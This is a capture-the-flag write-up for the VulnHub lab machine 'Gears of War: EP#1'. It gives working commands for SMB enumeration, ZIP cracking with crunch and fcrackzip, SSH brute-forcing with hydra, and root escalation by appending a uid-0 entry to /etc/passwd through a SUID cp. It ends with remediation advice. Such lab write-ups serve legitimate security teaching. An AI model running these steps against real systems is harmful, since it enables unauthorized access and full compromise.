




# Gears of War: EP#1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.184 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/gears-of-war-ep1,476/) |

## Attack Summary

netdiscover → nmap → SMB anon → ZIP + crunch wordlist → fcrackzip → SSH hydra brute → SUID cp → passwd injection → root

## Methodology

1. Network discovery and port scan
2. SMB enumeration — anonymous access, ZIP file
3. Wordlist generation and ZIP cracking
4. SSH brute force for username
5. Privilege escalation via SUID cp

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
```

Target found at 192.168.1.184.

```bash
nmap -A -p- 192.168.1.184
```

Open ports: 22 (SSH), 139/445 (SMB).


---

## Step 2: SMB Enumeration

```bash
smbclient -L 192.168.1.184
smbclient //192.168.1.184/LOCUS_LAN$
```

Anonymous access works. The share contains `msg_horda.zip` and `SOS.txt`.

```bash
get msg_horda.zip
get SOS.txt
```

`SOS.txt` hints at the password pattern for the ZIP: 4 characters, letter-digit-digit-digit format.



---

## Step 3: ZIP Password Cracking

Generate a targeted wordlist with crunch:

```bash
crunch 4 4 -t @%%, -o wordlist
```

Crack the ZIP:

```bash
fcrackzip -D -u -v -p wordlist msg_horda.zip
```

Password found: `r44M`

The ZIP contains `key.txt` with a second credential fragment: `3_d4y`



---

## Step 4: SSH Username Brute Force

Use the discovered password to brute-force the username:

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p 3_d4y -T4 192.168.1.184 ssh
```

Username found: **marcus**

```bash
ssh marcus@192.168.1.184 -t "bash --noprofile"
id
```

---

## Step 5: SUID Enumeration

```bash
find /bin -type f -perm -u=s 2>/dev/null
```

`cp` has the SUID bit set — it can overwrite any file as root.



---

## Step 6: Privilege Escalation via cp SUID

Generate a password hash:

```bash
openssl passwd -1 -salt raj pass123
```

Create a modified `/etc/passwd` entry in `/tmp`:

```bash
cp /etc/passwd /tmp/passwd
echo 'raj:$1$raj$<hash>:0:0:root:/root:/bin/bash' >> /tmp/passwd
cp /tmp/passwd /etc/passwd
su raj
```

```bash
whoami
# root
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **SMB anonymous read** leaks credential material even without auth
2. **Targeted crunch wordlists** are far faster than generic rockyou against known-pattern passwords
3. **SUID cp** is a critical misconfiguration — any file writable as root = full compromise
4. **passwd file injection** is the classic SUID cp exploitation path

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SMB anonymous read | Disable null session: `restrict anonymous = 2` in smb.conf |
| SUID on cp | Remove SUID: `chmod u-s /bin/cp` |
| Weak ZIP password | Use strong random passwords; store keys out-of-band |
| Password in /tmp accessible share | Never share credential material via unauthenticated channels |
